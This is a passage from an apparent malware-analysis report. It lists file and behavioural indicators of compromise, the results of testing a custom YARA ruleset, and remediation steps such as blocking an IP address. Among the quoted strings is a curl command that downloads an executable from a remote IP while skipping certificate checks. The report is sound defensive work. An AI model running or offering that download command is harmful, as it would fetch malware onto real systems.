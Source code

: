 ### File-Based IOCs

- **Filenames**: dasuwerugwuerwq.exe, simplecalc.exe, setup.exe
- **Packing**: UPX compression
- **Unique Strings**: 
  - "I'm really mean. RAAAAH!"
  - "thug", "lyfe"
  - "curl -k -o setup.exe https://165.73.244.11/installers/setup.exe"

### Behavioral IOCs

- UPX-packed executables
- Abnormal PE section counts (outside 6-8 range)
- Abnormal export counts (outside 5-10 range)
- Embedded PE files (multiple DOS stubs)
- SSL certificate validation bypass

---

## YARA Rule Validation

### False Positive Testing

The custom **thugLyfe.yar** ruleset was tested against the C:\Windows\System32 directory with **zero matches**, confirming no false positives against legitimate Windows system files.

### True Positive Confirmation

All three malicious samples (dasuwerugwuerwq.exe, simplecalc.exe, setup.exe) correctly matched their respective YARA rules, with proper string and condition matching.

---

## Remediation Recommendations

1. **Network-level blocking**: Block all traffic to IP 165.73.244.11
2. **File removal**: Delete identified malicious files if found in the environment
3. **YARA deployment**: Deploy thugLyfe.yar ruleset to endpoint detection systems
4. **IOC hunting**: Search for additional instances using provided IOCs
5. **Traffic monitoring**: Monitor for HTTPS connections with SSL bypass patterns

---

## Attachments

- thugLyfe.yar (Custom YARA ruleset)
- YARA scan results screenshots
- Sample file hashes (if available)

---

## Additional Examiner Notes
